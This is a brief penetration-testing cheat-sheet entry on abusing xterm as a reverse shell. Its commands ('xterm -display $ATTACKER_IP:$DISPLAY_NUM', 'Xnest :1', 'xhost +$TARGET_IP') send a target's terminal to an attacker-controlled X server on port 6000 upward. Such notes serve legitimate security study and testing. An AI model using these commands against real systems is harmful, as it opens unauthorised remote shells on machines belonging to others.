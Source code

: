 # Exploiting Xterm

Remember that the X11 protocol is network based! You can thus get xterm to act as a reverse shell by simply providing it with a display pointing to your machine.

```bash
xterm -display $ATTACKER_IP:$DISPLAY_NUM
```

The connection will be made back on port 6000 + `$DISPLAY_NUM` (so, 6000 for display 0, 6001 for display 1, etc.).

This, of course, requires a running X server on your end (for example, `Xnest :1`). You'll need to make sure that connections from the target system are authrized.

```bash
xhost +$TARGET_IP
```

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
